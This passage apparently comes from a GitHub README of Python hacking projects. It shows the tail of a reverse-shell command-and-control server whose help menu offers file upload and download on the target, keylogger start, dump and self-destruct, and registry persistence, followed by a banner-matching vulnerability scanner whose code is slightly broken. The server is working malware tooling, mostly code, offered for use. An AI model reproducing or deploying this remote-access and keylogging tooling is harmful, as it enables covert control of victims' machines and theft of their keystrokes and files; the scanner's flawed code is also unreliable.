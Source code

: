 ```
                except socket.timeout as e:
                    break
            target.settimeout(None)
            f.close()
            count += 1
        elif command == 'help':
            print(termcolor.colored('''\n
            quit                                --> Quit Session With The Target
            clear                               --> Clear The Screen
            cd *Directory Name*                 --> Changes Directory On Target System
            upload *file name*                  --> Upload File To The target Machine
            download *file name*                --> Download File From Target Machine
            keylog_start                        --> Start The Keylogger
            keylog_dump                         --> Print Keystrokes That The Target Inputted
            keylog_stop                         --> Stop And Self Destruct Keylogger File
            persistence *RegName* *fileName*    --> Create Persistence In Registry'''),'green')
        else:
            result = reliable_recv()
            print(result)


sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.bind(('192.168.1.4', 5555))
print(termcolor.colored('[+] Listening For The Incoming Connections', 'green'))
sock.listen(5)
target, ip = sock.accept()
print(termcolor.colored('[+] Target Connected From: ' + str(ip), 'green'))
target_communication()
```


---

## 16 - Vulnerability Scanner

- checks for vulnerabilities in the provided software

### Code

```
#!/usr/bin/env python

# vulnerability_scanner_1.py

import portscanner

targets_ip = input('[+] Enter Scan Target: ')
port_number = int(input('[+] Enter number of ports to scan: '))
vuln_file = input('[+] Enter path to file with vulnerable software: ')
print('\n')

target = portscanner.PortScan(targets_ip, port_number)
target.scan()

with open(vuln_file, 'r') as file:
	count = 0
	for banner in target.banners:
		file.seek(0)
		for line in file.readlines():
			if line.strip() in banner:
				print('[!!] VULNERABLE BANNER: "' + BANNER + '" ON PORT: ' + str(target.open_ports[count])
		count += 1
```